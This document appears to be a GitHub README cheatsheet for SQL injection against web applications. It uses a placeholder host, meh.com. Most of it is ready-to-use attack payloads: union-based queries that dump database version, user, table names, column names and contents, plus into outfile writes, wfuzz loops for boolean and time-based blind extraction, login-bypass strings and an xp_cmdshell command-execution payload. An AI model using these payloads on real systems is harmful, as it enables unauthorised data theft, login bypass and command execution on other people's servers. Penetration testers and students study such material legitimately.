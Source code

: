 #### SQL Injection Cheatsheet
This document is collection of basic SQL command injection and should NOT be conbsiderd as reference but guide to built on. Keep in mind some of the examples below will require modification(s) such as url encode, comments, etc. Now before we contiune here is couple good to know SQL functions

```php
limit <row offset>,<number of rows>                          # display rows based on offset and number  

count(*)                                                     # display number of rows  

rand()                                                       # generate random number between 0 and 1 

floor(rand()*<number>)                                       # print out number part of random decimal number 

select(select database());                                   # double query (nested) using database() as an example 

group by <column name>                                       # summerize rows based on column name  

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names  

length(<string>)                                             # calculate the number of characters for given string 

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length 

ascii(<character>)                                           # decimal representation of the character 

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement 

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file
```
Now comes the fun part, here's combination of error, union, blind SQL command injection examples.

Determine back-end query number of columns with error-based string SQL command injection
```php
http://meh.com/index.php?id=1 order by <number>
```

Determine back-end query number of columns by observing `http response size` with `wfuzz` in error-based integer SQL command injection
```php
wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
```

Identify webpage printable union columns by providing false value to back-end query with error-based integer SQL command injection. This injection depends on number of columns identified by `order by` clause
```php
http://meh.com/index.php?id=-1 union select <number of columns seperated by comma>
```

Dump the content of table into the filesystem
```php
http://meh.com/index,php?id=-1')) union select <column1>,<column2> from <table name> into outfile "<url to file>" --+
```

Print back-end SQL version with error-based integer SQL command injection, assuming column 3 content gets diplayed on webpage
```php
http://meh.com/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query to access back-end database server with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column with error-based integer SQL command injection 
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to reqular comments such as `--+`, `#`, and `/* */` with error-based string SQL command injection
```php
http://meh.com/index.php?id=1' <sqli here> and '1
```
Determine databsae name with boolean-based blind SQL injection with `substr()`
```php
http://meh.com/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
```

Determine databsae name with boolean-based blind SQL injection by observing `http response size` with combination of `substr()` and `wfuzz`, assuming database name does not include special characters
```php
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://meh.com/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done 
```
Determine databsae name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()` and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 
```

Determine table name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name 
```

Determine column name with boolean blind-based SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name 
```
Boolean-based blind SQL command injection demo

![alt text](https://j.gifs.com/W77p8o.gif)

Confirm time-based blind SQL injection using `sleep()` function
```php
http://meh.com/index.php?id=1' and sleep(10) --+
```

Determine database version with time-based blind SQL injection using `sleep()`, `like""`, and conditional `if`, assuming the back-end database is running version 5
```php
http://meh.com/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name 
```
Determine column name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name 
```

Extract column content with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://meh.com/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```
Time-based blind SQL command injection with bash magic demo

![alt text](https://j.gifs.com/2vv2J1.gif)

Hope those were helpfull! Now here's couple login bypass commands that worked for me
```php
meh' OR 3=3;#
meh' OR 2=2 LIMIT 1;#
meh' OR 'a'='a
meh' OR 1=1 --+
```
Sometimes you'll find SQL server that have `xp_cmdshell` turned on
```php
meh' exec master..xp_cmdshell '<command here>' --
```

Final notes!
- Use your proxy of choice to bypass client-side javascript restrictions
- `order by` clause works only with regular comments such as `--+`
- Make sure to update ASCII range to include special characters if you're going after users table
- `outfile` don't have permissions to overwrite an exsisting file, make sure you go with new filename everytime.
- Always input false value to the vulnerable paramater when working with union-based SQL command injection

To do list
- Python or bash script to convert ascii to text after data extraction (grep output in this case)
- Create outfile && loadfile templates

